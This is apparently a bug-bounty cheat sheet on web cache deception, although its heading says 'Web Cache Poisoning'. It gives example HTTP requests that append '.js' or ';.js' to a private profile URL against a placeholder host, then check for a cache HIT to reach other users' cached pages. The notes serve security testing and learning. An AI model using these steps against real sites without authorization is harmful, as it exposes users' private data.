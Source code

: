 # Web Cache Poisoning

## Introduction
Web Cache Deception is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data

## Where to find
`-`

## How to exploit
* Normal Request (For example in the settings profile feature)
```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)
```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

1. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)
```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

## References
* [@bxmbn](https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9)
